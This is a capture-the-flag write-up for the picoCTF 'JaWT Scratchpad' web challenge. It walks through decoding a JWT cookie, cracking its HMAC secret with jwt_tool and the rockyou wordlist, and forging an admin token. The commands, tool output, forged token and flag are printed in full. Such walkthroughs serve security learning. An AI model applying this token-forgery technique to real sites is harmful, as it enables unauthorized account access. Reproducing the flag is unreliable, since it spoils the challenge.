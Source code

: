 # JaWT Scratchpad - Points: 400

## Problem

> Check the admin scratchpad! ```https://2019shell1.picoctf.com/problem/32267/``` or http://2019shell1.picoctf.com:32267

## Hints

> What is that cookie?

> Have you heard of JWT?

## Overview

Let's connect to the provided website

Navigating to the vulnerable website, the first thing a norm would do is to check the source code. Unfortunately, there's nothing seems to be suspicious. However, ```JWT``` which stands for **JSON Web Tokens** and ```John``` which is referring a really famous and common password cracker, **John The Ripper** are mentioned.  

There's a box where you can actually enter your own chosen username. If we tried to login as ```admin```, we'll get an error like this
```html
<p style="color:red">
       YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
</p>
```
However, logging in as another user is allowed. I used ```ch3llist4``` as my username. Now we can start exploiting the cookie.

## Solutions

I decided to use the same [online extension](http://www.editthiscookie.com/) as I did on **Open-to-admins** challenge for checking and editing the site cookies.

As expected, I saw a cookie named ```jwt``` with the value ```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8```. This should be the JSON token that got already encoded using ```base64```

Use this [website](https://jwt.io/) which is provided as a hint in their source code. We can extract the information out of it.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "user": "ch3llist4"
}
```
As I read on the [wiki](https://en.wikipedia.org/wiki/JSON_Web_Token)

The signature part which is the last part after ```.``` is calculated by encoding the header and payload using [Base64url Encoding](https://en.wikipedia.org/wiki/Base64#URL_applications) and concatenating the two together with a period separator. That string is then run through the cryptographic algorithm specified in the header...
```
HMAC-SHA256(
 base64urlEncoding(header) + '.' +
 base64urlEncoding(payload),
 secret
)
```
So far as i know, we need to somehow get their secret code used in the signature part to generate a new JWT and then we can use that to exploit the website.

I actually didn't use John as the John process for bruteforcing JWT specifically is a little bit more complicated. Instead, I used this [tool](https://github.com/ticarpi/jwt_tool) 

```
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8 ../JohnTheRipper/run/rockyou.txt

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = ch3llist4

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: ../JohnTheRipper/run/rockyou.txt
Testing 14344380 passwords...
[+] ilovepico is the CORRECT key!
```
Now we know that the secret used in the signature part is ```ilovepico```. Let's use it to generate the new token using the previous website. Now we change our usernames to ```admin``` for initializing the unauthorized access.

This token is perfect for exploiting now
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Change the cookie value to the token and we're good. All we need to do left is reload the page and enjoy the flag..

flag:
```
picoCTF{jawt_was_just_what_you_thought_6ba7694bcc36bdd4fdaf010b2ec1c2c3}
```

